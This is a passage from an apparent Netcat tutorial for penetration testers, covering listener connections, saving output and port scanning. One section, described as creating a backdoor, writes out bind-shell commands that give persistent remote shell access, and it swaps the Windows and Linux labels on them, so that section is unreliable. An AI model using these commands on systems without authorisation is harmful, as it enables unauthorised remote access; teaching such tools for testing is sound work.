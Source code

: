 **Creating the initiator** - Creating the initiator is simple as you only need to run the IP address of the listening machine followed by the port number.

See the example below.

```bash
nc 192.168.234.128 8080
```

#### 4. Creating a backdoor
After getting a Meterpreter shell back or successfully exploiting a device, you might need to maintain your access so you can get back to the target device at any time. With Netcat, you can run a one-line command to achieve this. This is called creating a backdoor.

For Windows, use:

```bash
nc -l -p 21 -e /bin/bash
```

For Linux, use:

```bash
nc -l -p 21 -e hack.exe
```

#### 5. Saving output
Information gathering is one of the most important fundamentals in penetration testing. To save the information gathered as the output from Netcat, we will use the parameter `-o` followed by the location to save the output as shown below:

```bash
nc 192.168.234.128 8080 -v -o /Desktop/Output.txt
```

### Modes of running Netcat
We have two common modes of running Netcat:
1. **Client mode/ initiator mode** - As we discussed earlier, the client or initiator mode always starts the connection to the listener.
2. **Listener Mode** - To set up the listener, we need the `port` number. The command also contains the `listening` and `verbose` commands.

### Uses of Netcat
1. **Port Scanning**

For every hacker or penetration tester, before performing any attack, you need to spot weak links or vulnerabilities in a target system. There are several ways to achieve this and one of them is `port scanning`.

Port scanning is the act of running a network analysis on a system to determine open or closed ports on a specific target machine.

This can be done by specifying the IP address of the target machine and setting up some parameters as shown in the syntax below:

```bash
nc -v -w2 -z [target_ip] 20-40
```
